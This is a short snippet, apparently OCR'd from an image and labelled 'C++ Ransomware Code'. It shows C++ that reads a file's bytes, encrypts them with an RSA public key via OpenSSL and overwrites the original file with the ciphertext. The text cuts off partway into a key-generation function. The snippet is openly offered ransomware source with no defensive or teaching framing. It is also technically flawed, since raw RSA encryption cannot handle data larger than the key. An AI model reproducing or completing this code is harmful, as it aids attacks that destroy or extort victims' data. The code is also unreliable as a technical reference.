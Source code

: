 

C++ Ransomware Code:

```cpp

#include <iostream>

#include <fstream>

#include <filesystem>

#include <openssl/rsa.h>

#include <openssl/pem.h>



void encryptFile(const std::string& filePath, RSA* rsa)

{

    std::ifstream file(filePath, std::ios::binary);

    std::string data((std::istreambuf_iterator<char>(file)), std::istreambuf_iterator<char>());

    file.close();



    int encryptedDataLength = RSA_size(rsa);

    unsigned char* encryptedData = new unsigned char[encryptedDataLength];



    int result = RSA_public_encrypt(data.length(), reinterpret_cast<const unsigned char*>(data.c_str()), encryptedData, rsa, RSA_PKCS1_PADDING);

    if (result != -1)

    {

        std::ofstream encryptedFile(filePath, std::ios::binary);

        encryptedFile.write(reinterpret_cast<char*>(encryptedData), result);

        encryptedFile.close();

    }



    delete[] encryptedData;

}



std::string generatePublicKey()

{

    RSA* rsa = RSA_new();

```